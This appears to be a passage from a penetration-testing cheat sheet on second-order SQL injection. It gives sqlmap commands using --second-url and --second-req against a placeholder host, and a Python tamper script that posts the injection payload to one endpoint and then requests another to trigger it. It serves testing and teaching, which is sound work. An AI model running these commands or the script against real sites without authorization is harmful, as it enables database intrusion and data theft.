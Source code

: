 ### Second-Order injections

Let's say you make a request to change some data, but the injection gets executed only after making a second request.
You can specify such request via a URL (with `--second-url`) or via a request file (with `--second-req`)

<smart-tabs variable="sqlmap-url-vs-file" :tabs="{'url': 'URL', 'file': 'Request file'}">
<template v-slot:url>

```bash
sqlmap -r injection.req -p products --second-url "{{ second-order-url https://vulnerable.net/info.php?user=5 }}"
```

</template>
<template v-slot:file>

```bash
sqlmap -r injection.req -p products --second-req "{{ second-order-req second-order.req }}"
```

</template>
</smart-tabs>


#### More complex second-order injections

With complex scenarios, a typicall way to exploit this injections, is by just program a tamper script that sends the payload and makes the necessary request, while making `sqlmap` to request only the last one. Here is an example script for that:

```python[second_order.py]
#!/usr/bin/env python

import requests
from lib.core.enums import PRIORITY


__priority__ = {{ tamper-priority PRIORITY.NORMAL }}


def dependencies():
    pass


def perform_injection(payload):
    proxies = {'http': '{{ proxy-url http://127.0.0.1:8080 }}'}
    cookies = {'sesion': 'SOME_TOKEN'}

    params = {'email': payload, 'other': 'stuff'}
    url = "https://{{ rhost vulnerable.net }}/do_stuff"
    pr = requests.post(url, data=params, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)

    url = "https://{{ rhost vulnerable.net }}/do_more_stuff"
    gr = requests.get(url, cookies=cookies, verify=False, allow_redirects=True, proxies=proxies)


def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    perform_injection(payload)
    return 'maybe an id or nothing, whatever you need on the last request'

```

> Here the **Copy As Python-Requests** Burp extension comes pretty handy. Find it at the [bappstore](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160).

